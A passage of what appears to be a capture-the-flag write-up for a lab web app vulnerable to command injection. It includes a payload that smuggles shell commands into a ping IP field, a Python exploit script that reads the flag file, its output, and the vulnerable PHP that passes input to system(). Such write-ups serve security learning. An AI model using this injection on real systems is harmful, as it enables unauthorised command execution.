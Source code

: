 This confirms that the application is vulnerable to command injection, and we can run the command `whoami` on the remote host.

> 1.1.1.1; whoami; {more commands here}

Let's practice Python:

```python
#!/usr/bin/env python3

import requests
from urllib import parse
from bs4 import BeautifulSoup

target = "http://167.99.202.131:30675/"
command = "whoami; ls /; cat /flag_vWY4h"
data = "test=ping&ip_address=127.0.0.1%3b+" + command + "&submit=Test"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

print("[+] lester: connecting to target: " +target)
resp = requests.post(target, data, headers=headers)

soup = BeautifulSoup(resp.text, 'html.parser')
print("[+] lester: got textarea output: " +soup.textarea.text)
```

Result:

```txt
round-trip min/avg/max/stddev = 0.033/0.038/0.046/0.000 ms
www
bin
boot
dev
entrypoint.sh
etc
flag_vWY4h
home
lib
<snip>
www
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
juancho💀hackbox:looking-glass$ 
```

Got the flag.

Vulnerable PHP code at `/www/index.php`:

```php
<?php
function getUserIp()
{
    return $_SERVER['REMOTE_ADDR'];
}

function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}

```